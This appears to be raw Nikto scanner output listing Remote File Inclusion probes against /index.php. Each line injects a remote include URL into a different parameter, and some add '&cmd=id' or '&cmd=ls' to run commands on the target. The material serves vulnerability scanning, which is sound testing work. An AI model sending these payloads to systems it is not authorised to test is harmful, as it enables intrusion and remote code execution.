+ /index.php?body=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?class_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?classified_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?cms=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config[\"sipssys\"]=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config[root_ordner]=http://blog.cirt.net/rfiinc.txt?&cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config[root_ordner]=http://blog.cirt.net/rfiinc.txt?cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config_atkroot=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?configuration=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?custom_admin_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?dateiPfad=http://blog.cirt.net/rfiinc.txt?&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?de=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?dept=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?do=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?exec=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ext=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?faq_path=http://blog.cirt.net/rfiinc.txt?&cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?file_name[]=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?file_Nikto[]=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?file_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?fileloc=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?from=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?func=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?function=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?function=custom&custom=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?gOo=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?gen=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?get=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?home_name=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?home_Nikto=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ilang=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?inc_dir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
